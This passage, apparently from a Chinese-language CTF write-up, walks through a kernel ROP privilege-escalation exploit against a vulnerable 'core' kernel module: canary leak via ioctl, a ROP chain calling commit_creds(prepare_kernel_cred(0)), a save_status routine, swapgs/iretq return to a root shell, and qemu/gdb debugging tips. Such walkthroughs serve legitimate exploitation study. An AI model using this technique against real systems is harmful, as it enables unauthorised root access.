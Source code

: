 ```c
  printk("\x016core: error copying data from userspacen");
  return 0xFFFFFFF2LL;
}

```

#### 漏洞利用

我们现在有地址泄露和栈溢出，用到的就是这里讲到的kernel rop，思路如下：
1. 利用ioctl结合core_read泄露地址及canary
2. 利用core_write吧gadgets写到name上
3. 利用copy_func将gadgets写到栈上
4. 通过rop执行`commit_creds(prepare_kernel_cred(0))`
5. 返回用户态，执行system("/bin/sh")起shell(使用`swapgs;iretq`来进行切换，但最开始要使用`save_status`保存寄存器的状态)


```c
size_t user_cs,user_ss,user_rflags,user_sp;
void save_status()
{
  __asm__(
    "mov user_cs,cs;"
    "mov user_ss,ss;"
    "mov user_sp,rsp;"
    "pushf;"
    "pop user_rflags;"
  );
  puts("[*] status has been saved.")

}
```

#### 调试

tips1:ctrl+A再按X可以让qemu退出

使用`gdb ./vmlinux -q`调试内核，在qemu内部使用`cat /sys/module/core/sections/.text`查看基址，使用`add-symbol-file ./core.ko [text_base]`增加符号表，`b core_read`添加断点，`target remote localhost:1234`开始调试。

#### exp.c

最后在构造rop的时候的栈结构是
p_rdi  
0  
prepare_kernel_cred  
mov rdi, rax  
commit_creds  
但是gadgets里没有直接能用的`mov rdi, rax; ret;`所以这里迂回了一下。构造的结构是：
p_rdi  
0  
prepare_kernel_cred  
p_rdx_ret  
p_rcx_ret  
mov rdi, rax; call rdx;  
commit_creds  
注意写exp之前要先sava_status,在 64 位系统中执行 iretq 指令前需要执行一下 swapgs 指令，该指令将 gs 寄存器的值与 MSR 地址 中的值交换。在内核态常规操作（如系统调用）的入口处，执行 swapgs 指令获得指向内核数据结构的指针，那么对应的， 从内核态退出，返回到用户态时也需执行一下 swapgs  
iretq用来恢复用户空间，需要给出之前保存的寄存器的值。恢复到用户空间之后一个`ret`到我们的`system("/bin/sh")`即可起root shell。
